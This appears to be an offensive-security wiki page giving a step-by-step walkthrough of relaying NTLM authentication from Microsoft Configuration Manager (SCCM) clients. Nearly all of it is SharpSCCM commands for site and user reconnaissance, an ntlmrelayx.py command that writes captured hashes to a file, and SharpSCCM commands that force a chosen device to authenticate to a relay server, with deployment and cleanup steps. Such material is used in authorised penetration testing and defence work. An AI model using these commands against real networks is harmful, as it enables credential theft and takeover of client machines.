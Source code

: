 # NTLM Relay from SCCM Clients

**Prerequisites :**

* Automatic Site-wide client push installation is enabled
* NTLM is not explicitly disabled

### How ?

> With **access to domain credentials** or a **session** with **Full Administrator** privileges to Microsoft Configuration Manager (or ConfigMgr, formerly System Center Configuration Manager and still commonly referred to as SCCM), you can very likely gain access to any client machine that is online. **But how?** Using WMI queries, the ConfigMgr PowerShell cmdlets, or tools like SharpSCCM, MalSCCM, and PowerSCCM.

### Exploit

{% embed url="https://github.com/Mayyhem/SharpSCCM" %}
SharpSCCM
{% endembed %}

```powershell
SharpSCCM.exe <server> <sitecode> exec -d <device_name> -r <relay_server_ip>
```

#### 1. Preparation

**Identify :**

* the FQDN or NetBIOS name of an SCCM management point server
* the sitecode for the SCCM site.

```powershell
SharpSCCM.exe local siteinfo

# must show something like : 
.\SharpSCCM.exe local siteinfo
[+] Connecting to \\localhost\root\ccm
[+] Executing WQL query: SELECT Name,CurrentManagementPoint FROM SMS_Authority
-----------------------------------
SMS_Authority
-----------------------------------
CurrentManagementPoint: atlas.aperture.sci
Name: SMS:PS1
-----------------------------------
```

* Confirm that the current domain context has the necessary privileges to define a collection of systems and deploy applications to it :

```powershell
SharpSCCM.exe <server> <sitecode> get class-instances SMS_Admin -p CategoryNames -p CollectionNames -p LogonName -p RoleNames

# Full Administrator -> win
# Application Administrator -> win
```

#### 2. Finding Users

{% embed url="https://posts.specterops.io/relaying-ntlm-authentication-from-sccm-clients-7dccb8f92867" %}

Find :

* systems where our target user has recently logged on
* or which computer is their workstation.

```powershell
# user last logon
SharpSCCM.exe <server> <sitecode> get device -u <username>
```

> The accuracy of the output of this command **should not be treated as fact**. The **LastLogonUser** attribute identifies **the last account that logged into the system at the point in time the last data discovery collection was sent** from the client to the management point (default: every _7 days_), so it is likely going to be stale for devices with multiple daily users.

```powershell
# To find all computers that are linked to a specific user :
SharpSCCM.exe <server> <sitecode> get primary-user -u <username>
```

#### Capture/Relay

```bash
ntlmrelayx.py -smb2support -ts -ip <relay_ip> -t <target_ip> -of ~/hashes.txt
```

* Request NTLM authentication :

```powershell
SharpSCCM.exe <server> <sitecode> exec -d <device_name> -r <relay_server_ip>

# check ntlmrelayx for hashes!

## Prevent timing issues:
.\SharpSCCM.exe <server> <sitecode> 
new collection device <collection_name>
add device-to-collection <device_name> <collection_name>
<wait a few minutes>
new application <application_name> <path_to_application>
new deployment <application_name> <collection_name>
<wait a few more minutes>
invoke update <collection_name>
<cleanup>
remove deployment <application_name> <collection_name>
remove application <application_name>
remove collection <collection_name>
```
